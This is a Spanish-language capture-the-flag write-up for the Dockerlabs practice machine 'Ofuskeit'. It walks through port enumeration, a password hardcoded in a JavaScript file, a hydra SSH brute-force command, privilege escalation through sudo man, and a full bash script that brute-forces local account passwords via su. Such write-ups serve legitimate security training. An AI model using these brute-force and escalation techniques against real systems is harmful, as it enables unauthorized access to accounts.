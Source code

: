 # 🖥️ Write-Up: [OFUSKEIT](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Ofuskeit
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: El pingüino de Mario
    - OS: Linux
---

## 🔍 Enumeración

La máquina Ofuskeit posee la ip **172.17.0.2**.

### Descubrimiento de Puertos

Vamos a comenzar enumerando los puertos abiertos de la máquina, para ello utilizaremos la herramienta de **nmap**.

![allPorts](screenshots/allPorts.png)

Vemos que tiene abiertos los puertos 22, 80 y 3000, así que vamos a averiguar que servicios y versiones se ejecutan en estos puertos mediante el uso de **nmap**.

![target](screenshots/target.png)

- El puerto 22 ejecuta un servicio de OpenSSH, pero no disponemos de credenciales y esta versión del servicio no es vulnerable.

- El puerto 80 ejecuta un servicio web con Apache.

- El puerto 3000 ejecuta un servicio web de Express js.

### Puerto 80

Si accedemos con el navegador a la ip de la máquina, vemos la web de una empresa de mantenimiento informático.

![home-80](screenshots/home-80.png)

Vamos a buscar subdirectorios empleando la herramienta **gobuster**.

![fuzzing](screenshots/fuzzing.png)

## 🔥 Explotación

Nos centramos en los subdirectorios de **/api.js** y **/script.js**.

En **script.js** encontramos código ofuscado de javascript. Tras varios intentos de desofuscarlo utilizando diferentes webs, no conseguimos obtener un buen resultado.

![obfuscate](screenshots/obfuscate.png)

En **api.js** vemos el código fuente del servicio de Express js que se ejecuta en el puerto 3000. En él se valida el token de la petición al endpoint y en caso de que este sea válido se devuelve uan contraseña. Pero claro, nosotros podemos ver la contraseña, **chocolate123**, sin necesidad de enviar la petición.

![api](screenshots/api.png)

Con esta contraseña vamos a ejecutar un ataque de fuerza bruta sobre el servicio de OpenSSH del puerto 22, como lista de usuarios vamos a usar **/SecLists/Usernames/xato-net-10-million-usernames.txt** que llamaremos **usernames** para simplificar.

```bash
hydra -L usernames -p chocolate123 ssh://172.17.0.2
```

![hydra-result](screenshots/hydra-result.png)

## 🔑 Acceso SSH

Con las credenciales **admin:chocolate123** nos conectamos por ssh

```bash
ssh admin@172.17.0.2
```

## 🧗 Escalada de Privilegios

### Balulito

Si revisamos sus permisos sudoers con `sudo -l`, vemos que podemos ejecutar como el usuario balulito **man**

![sudoers](screenshots/sudoers-admin.png)

Revisamos https://gtfobins.github.io/gtfobins/man/#sudo para ver como subir privilegios con **man**.

![man1](screenshots/man1.png)
![man2](screenshots/man2.png)

Y nos convertimos en el usuario **balulito**.

![balulito](screenshots/balulito.png)

Al intenter ver los permisos **sudoers** nos pide contraseña. Revisando el sistema encontramos en el archivo **/var/www/html/.git** una posible contraseña **'this is top secret'**, la cual no funciona.

Por lo tanto, vamos a utilizar un script en bash para aplicar fuerza bruta y obtener la contraseña de balulito, lo llamaremos **force.sh**

```bash
#!/bin/bash

# Colour
greenColour="\e[0;32m\033[1m"
redColour="\e[0;31m\033[1m"
endColour="\033[0m\e[0m"

ctrl_c(){
    echo -e "\n${redColour}[!] Aborting...${endColour}\n"
    tput cnorm && exit 1
}

# Ctrl+c
trap ctrl_c INT

if [ "$#" -ne "2" ]; then
	echo "Insert an user and a password's list"
	exit 1
fi

user="$1"
dicc="$2"

tput civis
while read passw ; do

    echo "Checking $passw"
    timeout 0.2 echo $passw | su $user -c 'echo "Hello"' &>/dev/null 

    if [ $? -eq 0 ]; then
        echo -e "\nUser--> ${greenColour}$user${endColour} Password--> ${greenColour}$passw${endColour}\n"
        tput cnorm
        exit 0
    fi

done < $dicc

tput cnorm
```
Nos pasamos mediante scp, como el usuario **admin**, este script y una versión reducida del rockyou, la cual contiene las primeras 5000 contraseñas que llamamos minirock.

```bash
scp force.sh admin@172.17.0.2:/home/admin/force.sh
scp minirock admin@172.17.0.2:/home/admin/minirock
```

Ahora como el script pertenece al usuario **admin** no lo podemos ejecutar como **balulito**, por lo que nos volvemos a conectar por ssh como **admin** y lo ejecutamos.

```bash
./force.sh balulito minirock
```

Y encontramos la contraseña **password1**

Con ella comprobamos los permisos sudoers del usuario **balulito** pero no posee ninguno.

### Root

Comprobamos si el usuario **root** reutiliza alguna de las contraseñas que tenemos y efectivamente, su contraseña es **chocolate123**.

Así que usamos las credenciales **root:chocolate123** y ya somos root.

![root](screenshots/root.png)


